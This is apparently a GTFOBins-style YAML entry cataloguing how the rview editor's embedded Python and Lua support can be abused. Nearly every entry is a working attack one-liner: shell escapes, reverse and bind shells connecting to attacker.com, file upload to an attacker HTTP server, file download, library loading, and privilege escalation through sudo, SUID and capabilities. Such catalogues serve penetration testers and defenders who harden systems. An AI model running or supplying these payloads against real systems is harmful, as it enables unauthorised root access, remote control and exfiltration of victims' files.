 functions:
  shell:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rview -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `rview` is compiled with Lua support.
      code: rview -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        rview -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        rview -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        rview -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        rview -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        rview -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        rview -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        rview -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        rview -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        rview file_to_write
        iDATA
        ^[
        w!
  file-read:
    - code: rview file_to_read
  library-load:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rview -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rview -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo rview -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `rview` is compiled with Lua support.
      code: sudo rview -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rview -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `rview` is compiled with Lua support.
      code: ./rview -c ':lua os.execute("reset; exec sh")'
---
